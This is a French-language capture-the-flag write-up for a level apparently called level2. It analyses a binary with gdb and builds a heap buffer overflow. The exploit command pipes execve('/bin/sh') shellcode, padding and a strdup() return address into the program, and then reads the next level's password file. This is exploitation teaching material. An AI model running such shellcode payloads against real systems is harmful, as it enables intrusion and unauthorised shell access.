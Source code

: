 # level2 - Execution d'un shellcode dans la Heap via strdup()

## Analyse du Programme

**Structure du Programme**
- Le `main()` appelle une fonction `p()`
- La fonction `p()` vérifie si l'adresse de retour contient `0xb`
- Utilisation de `strdup()` qui alloue de la mémoire dans le heap

**Points Clés**
- Utilisation d'un shellcode ?

`Le shellcode de la stack/heap est une technique utilisée dans l'exploitation binaire où un attaquant écrit un shellcode dans la pile/heap d'un programme vulnérable, puis modifie le Pointeur d'Instruction (IP) ou le Pointeur d'Instruction Étendu (EIP) pour pointer vers l'emplacement de ce shellcode, le forçant à s'exécuter.`
- Adresse de retour de `strdup()`: `0x804a008`
- Offset du buffer overflow: 80 bytes (Pour modifier le retour de la fonction `p()` pour pointer vers notre shellcode)
- Shellcode length: 21 bytes
- Padding nécessaire: 59 bytes (80 - 21)
- En executant la commande i f (info frame) on observe que notre saved eip est a l'adresse `0x804854a`

```nasm
eip = 0x8048505 in p; saved eip 0x804854a
```

- En affichant son instruction on voit bien qu'il s'agit d'un retour a la fonction main 

```nasm
(gdb) x/i 0x804854a
   0x804854a <main+11>: leave
```

- Avec un payload on veut pouvoir modifier ce retour pour pointer vers notre shellcode qui va executer un execve("bin/sh")
- Le shellcode a ete trouve en ligne sur ce site : `http://shell-storm.org/shellcode/files/shellcode-575.html`

```nasm
(gdb) i f
Stack level 0, frame at 0xbffff640:
 eip = 0x8048505 in p; saved eip 0x804a008
```

## Stratégie d'Exploitation

**Contournement de la Protection**
- Le programme vérifie si l'adresse de retour contient `0xb`
- L'utilisation du heap via `strdup()` permet de contourner cette protection
- L'exécution de code en mémoire est active

Comme on peut le voir ci-dessous, les fonctions libc sont sur les plages 0xb donc inutilisables avec la verification :
```nasm
(gdb) info proc mappings 
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/user/level2/level2
         0x8049000  0x804a000     0x1000        0x0 /home/user/level2/level2
        0xb7e2b000 0xb7e2c000     0x1000        0x0 
        0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fd2000 0xb7fd5000     0x3000        0x0 
        0xb7fda000 0xb7fdd000     0x3000        0x0 
        0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
        0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
        0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
        0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
        0xbffdf000 0xc0000000    0x21000        0x0 [stack]
```
- L'utilisation d'un call a system() de libc est donc impossible

**Construction du Payload**
1. Shellcode en début de payload (21 bytes)
2. Padding de 59 bytes
3. Adresse de retour de `strdup()`

## Exploitation

**Commande d'Exploitation**
```bash
(python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 59 + "\x08\xa0\x04\x08"'; cat) | ./level2
```

**Obtention du Flag**
```bash
cat /home/user/level3/.pass
```

Cette exploitation fonctionne car le shellcode est exécuté depuis le heap, évitant ainsi la vérification de l'adresse de retour contenant `0xb`.
